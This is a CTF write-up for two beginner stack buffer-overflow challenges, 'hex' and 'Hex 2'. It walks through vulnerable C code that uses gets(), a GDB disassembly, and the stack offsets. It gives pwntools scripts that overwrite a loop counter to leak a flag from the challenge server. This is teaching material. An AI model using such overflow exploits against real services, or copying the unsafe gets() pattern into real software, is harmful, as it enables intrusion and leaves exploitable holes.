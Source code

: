 This was a pretty easy pwn challenge with 138 solves during the CTF.
here is the source code:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    int i = 0;

    char name[16];
    printf("input text to convert to hex: \n");
    gets(name);

    char flag[64];
    fgets(flag, 64, fopen("flag.txt", "r"));
    // TODO: PRINT FLAG for cool people ... but maybe later

    while (i < 16)
    {
        // the & 0xFF... is to do some typecasting and make sure only two characters are printed ^_^ hehe
        printf("%02X", (unsigned int)(name[i] & 0xFF));
        i++;
    }
    printf("\n");
}
```

Pretty straightforward. it will take our name, and convert it to hex.
it will also store the `flag` variable on the stack.
Input is taken using the `gets` function, which is known as an unsafe function, which leads to buffer overflow.
Best thing to do when solving pwn chals, is to use GDB. lets run gdb with the challenge binary, and disassemble main:
```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x0000000000401186 <+0>:	push   rbp
   0x0000000000401187 <+1>:	mov    rbp,rsp
   0x000000000040118a <+4>:	sub    rsp,0x60
   0x000000000040118e <+8>:	mov    rax,QWORD PTR [rip+0x2eab]        # 0x404040 <stdout@GLIBC_2.2.5>
   0x0000000000401195 <+15>:	mov    esi,0x0
   0x000000000040119a <+20>:	mov    rdi,rax
   0x000000000040119d <+23>:	call   0x401050 <setbuf@plt>
   0x00000000004011a2 <+28>:	mov    rax,QWORD PTR [rip+0x2eb7]        # 0x404060 <stderr@GLIBC_2.2.5>
   0x00000000004011a9 <+35>:	mov    esi,0x0
   0x00000000004011ae <+40>:	mov    rdi,rax
   0x00000000004011b1 <+43>:	call   0x401050 <setbuf@plt>
   0x00000000004011b6 <+48>:	mov    DWORD PTR [rbp-0x4],0x0
   0x00000000004011bd <+55>:	mov    edi,0x402010
   0x00000000004011c2 <+60>:	call   0x401040 <puts@plt>
   0x00000000004011c7 <+65>:	lea    rax,[rbp-0x20]
   0x00000000004011cb <+69>:	mov    rdi,rax
   0x00000000004011ce <+72>:	mov    eax,0x0
   0x00000000004011d3 <+77>:	call   0x401080 <gets@plt>
   0x00000000004011d8 <+82>:	mov    esi,0x40202f
   0x00000000004011dd <+87>:	mov    edi,0x402031
   0x00000000004011e2 <+92>:	call   0x401090 <fopen@plt>
   0x00000000004011e7 <+97>:	mov    rdx,rax
   0x00000000004011ea <+100>:	lea    rax,[rbp-0x60]
   0x00000000004011ee <+104>:	mov    esi,0x40
   0x00000000004011f3 <+109>:	mov    rdi,rax
   0x00000000004011f6 <+112>:	call   0x401070 <fgets@plt>
   0x00000000004011fb <+117>:	jmp    0x401222 <main+156>
   0x00000000004011fd <+119>:	mov    eax,DWORD PTR [rbp-0x4]
   0x0000000000401200 <+122>:	cdqe   
   0x0000000000401202 <+124>:	movzx  eax,BYTE PTR [rbp+rax*1-0x20]
   0x0000000000401207 <+129>:	movsx  eax,al
   0x000000000040120a <+132>:	movzx  eax,al
   0x000000000040120d <+135>:	mov    esi,eax
   0x000000000040120f <+137>:	mov    edi,0x40203a
   0x0000000000401214 <+142>:	mov    eax,0x0
   0x0000000000401219 <+147>:	call   0x401060 <printf@plt>
   0x000000000040121e <+152>:	add    DWORD PTR [rbp-0x4],0x1
   0x0000000000401222 <+156>:	cmp    DWORD PTR [rbp-0x4],0xf
   0x0000000000401226 <+160>:	jle    0x4011fd <main+119>
   0x0000000000401228 <+162>:	mov    edi,0xa
   0x000000000040122d <+167>:	call   0x401030 <putchar@plt>
   0x0000000000401232 <+172>:	mov    eax,0x0
   0x0000000000401237 <+177>:	leave  
   0x0000000000401238 <+178>:	ret    
End of assembler dump.
pwndbg> 
```
We can understand a few things from this code.
First of all, RBP is a register that points to the stack base address, and each local variable is stored in a constant offset from it.
Lets try to understand where each local variable is stored.
In line `main+65`, we can see that the code set `rax` to be `rbp-0x20`, then it is moved to `rdi`, and `gets` is called.
The calling convention is 64bit is to use registers to pass arguments to functions. RDI is used for the first argument, RSI for the second, etc.
So, before calling to `gets`, the code moved `rbp-0x20` to `RDI`, which means that `rbp-0x20` is `gets` argument. in the c code we can see that `name` is the parameter for `gets`, so we can understand that `name` is stored in `rbp-0x20`
In line `main+156`, we can see that the assembly is comparing the value stored at `rbp-0x4` with 0xf=15. this is the condition of the while loop! so we know that `i` is stored at `rbp-0x4`.
We can also see in line `main+100`, that the code sets `rdi` to be `rbp-0x60`, and then calls to `fgets`. thats the fgets that reads the flag. so we can know that the flag is in `rbp-0x60`
The stack will look somehting like this:
![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/cedd3c85-8c71-4dbf-9197-4c9a508bb5dc)

Now, we know enough to be able to exploit this.
Using `gets(name)`, we can trigger a bufferoverflow, and override the `i` variable that is stored after name, and change it to whatever we want!
i is stored at `rbp-0x4`, name is stored at `rbp-0x20`, so we need `0x20-0x4=28` bytes to reach it. 
Now, what should we change it to?
When printing `name` to us, it uses this assembly lines to get the current character:
```
<+119>:	mov    eax,DWORD PTR [rbp-0x4]
<+124>:	movzx  eax,BYTE PTR [rbp+rax*1-0x20]
```
it takes `i`, and puts it in `eax`. then it reads `rbp-0x20+i`. to get the current character.
So in order to read the flag, which is stored in `rbp-0x60`, we need `i=-0x40` to reach it.
i is a regular int, so changing it to a negative number is possible.

Here is the final exploit
```py
from pwn import *
p = remote('amt.rs' , 31630)

p.recvline()
p.sendline(b"A" * 28 + p32(0xffffffff - 0x40))

print(bytes.fromhex(p.recvline().decode()) )
```

Ez and fun challenge.

*Hex 2*

this challenge is pretty much the same as hex2. here is the source code:
```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    int i = 0;

    char name[16];
    printf("input text to convert to hex: \n");
    gets(name);

    char flag[64];
    fgets(flag, 64, fopen("flag.txt", "r"));
    // TODO: PRINT FLAG for cool people ... but maybe later

    while (1)
    {
        // the & 0xFF... is to do some typecasting and make sure only two characters are printed ^_^ hehe
        printf("%02X", (unsigned int)(name[i] & 0xFF));

        // exit out of the loop
        if (i <= 0)
        {
            printf("\n");
            return 0;
        }
        i--;
    }
}
```
The only difference is that inside the while loop, it checks for negative i, and exits.
The stack will look exactly the same as hex1, so we can override i again.
As we can see in the while loop, it will print the `name[i]` for us, and then exit! this is good to us, because this way we can leak the flag byte by byte. here is the exploit:

```py
from pwn import *
elf = ELF("./chal")

flag = ''
for i in range(1, 70):
	p = remote('amt.rs' , 31631)
	p.recvline()
	p.sendline(b"A" * 28 + p32(0xffffffff - 0x40 + i))
	flag += chr(int(p.recvline()[:-1].decode(), 16))
	print(flag)
	p.close()
```
